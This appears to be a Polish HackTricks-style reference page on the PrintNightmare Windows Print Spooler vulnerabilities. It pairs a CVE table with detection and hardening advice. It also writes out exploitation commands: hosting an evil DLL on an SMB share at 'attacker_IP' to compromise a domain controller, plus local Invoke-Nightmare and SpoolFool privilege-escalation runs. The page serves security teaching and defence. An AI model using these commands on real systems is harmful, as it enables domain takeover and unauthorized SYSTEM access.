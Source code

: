 # PrintNightmare (Windows Print Spooler RCE/LPE)

{{#include ../../banners/hacktricks-training.md}}

> PrintNightmare to zbiorcza nazwa nadana rodzinie luk w usłudze **Print Spooler** systemu Windows, które umożliwiają **wykonywanie dowolnego kodu jako SYSTEM** i, gdy spooler jest dostępny przez RPC, **zdalne wykonywanie kodu (RCE) na kontrolerach domeny i serwerach plików**. Najczęściej wykorzystywane CVE to **CVE-2021-1675** (początkowo klasyfikowane jako LPE) oraz **CVE-2021-34527** (pełne RCE). Kolejne problemy, takie jak **CVE-2021-34481 (“Point & Print”)** i **CVE-2022-21999 (“SpoolFool”)**, dowodzą, że powierzchnia ataku jest wciąż daleka od zamknięcia.

---

## 1. Wrażliwe komponenty i CVE

| Rok | CVE | Krótka nazwa | Primitiv | Uwagi |
|------|-----|--------------|----------|-------|
|2021|CVE-2021-1675|“PrintNightmare #1”|LPE|Załatane w czerwcu 2021 w CU, ale obejście przez CVE-2021-34527|
|2021|CVE-2021-34527|“PrintNightmare”|RCE/LPE|AddPrinterDriverEx pozwala uwierzytelnionym użytkownikom na załadowanie DLL sterownika z zdalnego udziału|
|2021|CVE-2021-34481|“Point & Print”|LPE|Instalacja niesigned sterownika przez użytkowników niebędących administratorami|
|2022|CVE-2022-21999|“SpoolFool”|LPE|Tworzenie dowolnych katalogów → sadzenie DLL – działa po poprawkach z 2021 roku|

Wszystkie one wykorzystują jedną z metod RPC **MS-RPRN / MS-PAR** (`RpcAddPrinterDriver`, `RpcAddPrinterDriverEx`, `RpcAsyncAddPrinterDriver`) lub relacje zaufania w ramach **Point & Print**.

## 2. Techniki eksploatacji

### 2.1 Kompromitacja zdalnego kontrolera domeny (CVE-2021-34527)

Uwierzytelniony, ale **nieuprzywilejowany** użytkownik domeny może uruchomić dowolne DLL jako **NT AUTHORITY\SYSTEM** na zdalnym spoolerze (często DC) poprzez:
```powershell
# 1. Host malicious driver DLL on a share the victim can reach
impacket-smbserver share ./evil_driver/ -smb2support

# 2. Use a PoC to call RpcAddPrinterDriverEx
python3 CVE-2021-1675.py victim_DC.domain.local  'DOMAIN/user:Password!' \
-f \
'\\attacker_IP\share\evil.dll'
```
Popularne PoC to **CVE-2021-1675.py** (Python/Impacket), **SharpPrintNightmare.exe** (C#) oraz moduły Benjamina Delpy’ego `misc::printnightmare / lsa::addsid` w **mimikatz**.

### 2.2 Eskalacja uprawnień lokalnych (wszystkie wspierane wersje Windows, 2021-2024)

Ta sama API może być wywoływana **lokalnie** w celu załadowania sterownika z `C:\Windows\System32\spool\drivers\x64\3\` i uzyskania uprawnień SYSTEM:
```powershell
Import-Module .\Invoke-Nightmare.ps1
Invoke-Nightmare -NewUser hacker -NewPassword P@ssw0rd!
```
### 2.3 SpoolFool (CVE-2022-21999) – omijanie poprawek z 2021 roku

Poprawki Microsoftu z 2021 roku zablokowały zdalne ładowanie sterowników, ale **nie wzmocniły uprawnień do katalogów**. SpoolFool wykorzystuje parametr `SpoolDirectory`, aby utworzyć dowolny katalog w `C:\Windows\System32\spool\drivers\`, umieszcza w nim DLL z ładunkiem i zmusza spooler do jego załadowania:
```powershell
# Binary version (local exploit)
SpoolFool.exe -dll add_user.dll

# PowerShell wrapper
Import-Module .\SpoolFool.ps1 ; Invoke-SpoolFool -dll add_user.dll
```
> Eksploit działa na w pełni zaktualizowanych systemach Windows 7 → Windows 11 oraz Server 2012R2 → 2022 przed aktualizacjami z lutego 2022

---

## 3. Wykrywanie i polowanie

* **Dzienniki zdarzeń** – włącz kanały *Microsoft-Windows-PrintService/Operational* i *Admin* i obserwuj **ID zdarzenia 808** „Usługa buforowania wydruku nie mogła załadować modułu wtyczki” lub wiadomości **RpcAddPrinterDriverEx**.
* **Sysmon** – `ID zdarzenia 7` (Obraz załadowany) lub `11/23` (Zapis/Usunięcie pliku) w `C:\Windows\System32\spool\drivers\*`, gdy proces nadrzędny to **spoolsv.exe**.
* **Linia procesów** – alerty, gdy **spoolsv.exe** uruchamia `cmd.exe`, `rundll32.exe`, PowerShell lub jakikolwiek niesigned binary.

## 4. Łagodzenie i wzmacnianie

1. **Zaktualizuj!** – Zastosuj najnowszą aktualizację zbiorczą na każdym hoście Windows, który ma zainstalowaną usługę buforowania wydruku.
2. **Wyłącz bufor, gdzie nie jest wymagany**, szczególnie na kontrolerach domeny:
```powershell
Stop-Service Spooler -Force
Set-Service Spooler -StartupType Disabled
```
3. **Zablokuj połączenia zdalne**, jednocześnie umożliwiając lokalne drukowanie – Zasady grupy: `Konfiguracja komputera → Szablony administracyjne → Drukarki → Zezwól usłudze buforowania wydruku na akceptowanie połączeń klientów = Wyłączone`.
4. **Ogranicz Point & Print**, aby tylko administratorzy mogli dodawać sterowniki, ustawiając wartość rejestru:
```cmd
reg add "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" \
/v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 1 /f
```
Szczegółowe wskazówki w Microsoft KB5005652

---

## 5. Powiązane badania / narzędzia

* [mimikatz `printnightmare`](https://github.com/gentilkiwi/mimikatz/tree/master/modules) moduły
* SharpPrintNightmare (C#) / Invoke-Nightmare (PowerShell)
* Eksploit SpoolFool i opis
* Mikropaty 0patch dla SpoolFool i innych błędów buforowania

---

**Więcej do przeczytania (zewnętrzne):** Sprawdź wpis na blogu z 2024 roku – [Zrozumienie podatności PrintNightmare](https://www.hackingarticles.in/understanding-printnightmare-vulnerability/)

## Odniesienia

* Microsoft – *KB5005652: Zarządzaj nowym domyślnym zachowaniem instalacji sterowników Point & Print*
<https://support.microsoft.com/en-us/topic/kb5005652-manage-new-point-and-print-default-driver-installation-behavior-cve-2021-34481-873642bf-2634-49c5-a23b-6d8e9a302872>
* Oliver Lyak – *SpoolFool: CVE-2022-21999*
<https://github.com/ly4k/SpoolFool>
{{#include ../../banners/hacktricks-training.md}}

